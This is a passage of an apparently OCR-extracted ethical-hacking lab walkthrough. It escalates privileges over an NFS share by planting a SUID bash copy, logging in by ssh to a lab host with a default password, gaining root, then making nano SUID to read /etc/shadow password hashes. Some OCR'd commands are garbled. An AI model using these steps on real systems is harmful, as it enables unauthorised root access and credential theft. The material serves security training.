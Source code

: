 
19. Type **cd /tmp/nfs** and press **Enter** to navigate to nfs folder.
20. Type **sudo cp /bin/bash.** in the terminal and press **Enter**.

### 


21. In the terminal, type **sudo chmod +s bash** and press **Enter**.
22. Type **ls -la bash** and press **Enter**.
23. To get the amount of free disk available type **sudo df -h** and press **Enter**.

### 


24. Now we will try to login into target machine using ssh. Type **ssh -l ubuntu 10.10.1.9** and press **Enter**.
25. In the **Are you sure you want to continue connecting** field type **yes** and press **Enter**.

### 


26. In the **ubuntu@10.10.1.9’s password** field enter **toor** and press **Enter**.
27. In the terminal window type **cd /home** and press **Enter**.

### 


28. Now, type **ls** and press **Enter** , to list the contents of the home directory.
29. Type **./bash -p** , to run bash in the target machine.
30. We have successfully opened a bash shell in the victim machine, type **id** and press **Enter** to get the id’s of users.

### 


31. Now type **whoami** and press **Enter** to check for root access.
32. Now we have got root privileges on the target machine, we will install nano editor in the target machine so that we can exploit root

### access 


33. In the terminal, type **cp /bin/nano.** and press **Enter**.
34. Type **chmod 4777 nano** and press **Enter**.
35. In the terminal, type **ls -la nano** and press **Enter**.
36. To navigate to home directory, type **cd /home** and press **Enter**. Now, type **ls** and press **Enter** to list the contents in home directory.

### 


37. To open the shadow file from where we can copy the hash of any user, type **./nano -p /etc/shadow** and press **Enter**.
38. **/etc/shadow** file opens showing the hashes of all users.

### 
